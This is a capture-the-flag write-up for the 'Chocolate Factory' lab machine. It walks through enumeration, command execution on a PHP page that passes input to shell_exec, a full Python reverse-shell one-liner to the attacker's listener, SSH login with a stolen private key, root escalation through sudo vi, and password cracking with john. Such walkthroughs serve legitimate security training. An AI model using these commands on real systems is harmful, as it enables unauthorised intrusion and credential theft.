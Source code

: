 # Chocolate Factory

![Charlie](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/8b5d62d5-05e3-4c30-a535-8acbab677d09)

## Enumeration

We begin by enumerating the target :

```bash
nmap -sT -sV 10.10.198.134
```
![nmap](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/005c2016-e177-4bdd-99fd-482577aae1cf)

as it shows there are plenty of ports open like `21` , `22`, `80` and other ports.

on port 80 you can see there is a login page :

![loginpage](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/7cf3893c-0f7a-44bf-a7ab-374b23889d0d)

but we don't have any credentials, and **SQLi** attack does not work here.

let's FUZZ the website with `ffuf` :

```bash
ffuf -w ~/wordlist/raft-medium-files.txt  -u http://10.10.198.134/FUZZ -fc 403
```

![ffuf](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/f894ce42-01c1-4dde-a574-2eb132bdbece)

yes , we have found 2 new directory : `home.php` and `validate.php`

navigate to `home.php` and there is an input box which you can type a command :

![home](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/46db25de-4d09-4703-8c44-3e267a9fc820)

use `ls` command to see the contents of the current directory :
```
 home.jpg home.php image.png index.html index.php.bak key_rev_key validate.php 
```

download `key_rev_key` file and see the `strings` of it :

```bash
strings key_rev_key
```

![key](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/1617e853-9449-4961-83d9-c91605f31c5d)

note and keep it.

let's download the `index.php.bak` file and see the source code :

```php
<?php
    if(isset($_POST['command']))
    {
        $cmd = $_POST['command'];
        echo shell_exec($cmd);
    }
?>   
```
so we can run any commands here

## Gaining Shell

i use a python3 reverse shell to gain access

on kali linux : 

```bash
nc -lvnp 4444
```

python3 reverse shell :

```python
export RHOST="10.18.57.234";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

we gain the shell as `www-data` 

navigate to `/home/charlie` , here we don't have access to `user.txt` but we can read the content of `teleport` which is charlie private key and `teleport.pub`

save the content of teleport file and ssh to machine with this private key

```bash
ssh -i charlie.key charlie@10.10.198.134
```

now we are user charlie and can cat the content of user.txt and find the first flag:

```bash
cat user.txt
```

## Privilege Escalation

let's see if we can escalate our privileges, i use `sudo -l` to see any sudo permissions that user charlie has :

```bash
sudo -l
```

![sudo](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/0b659a79-d057-4df8-b2c6-4418390e1040)

we can run `/usr/bin/vi` as sudo, then do it and open another shell within vi and become root :

```bash
:!/bin/bash
```

navigate to `/root` we see `root.py`, we need to execute it with `python` not python3 :

```python
python root.py
```

![rootpy](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/57b87de9-93b2-4f97-b91f-65222d8bc8aa)

enter the key you found in `key_rev_key` like this :

![root](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/a9fda0e2-bbc1-494b-a754-035d1b313936)

and you find the second flag.

## Charlie Password

To get the charlie password try to login to ftp with `anonymous` user :

```bash
ftp 10.10.198.134
```

![ftp](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/01c16df5-2a33-4e7b-b872-22228a3746e1)

download the image with `get gum_room.jpg` and look to see if any data is embedded inside it :

```bash
steghide info gum_room.jpg
```

it needs a password to show the info, just use a blank password and you see a b64.txt file is embedded inside

extract `b64.txt` using steghide :

```bash
steghide extract -sf gum_room.jpg
```

decode it :

```bash
cat b64.txt | base64 -d
```

![b64](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/fe129af1-ef4a-4083-aa20-477e02c4bae5)

we need to crack the charlie hashed password, save the last line in a text file and use `john` to crack it :

```bash
john hash.txt --wordlist=/usr/share/wordlist/rouckyou.txt
```
it must get you the password within 5 to 10 minutes.

This is how you solve this challenge.
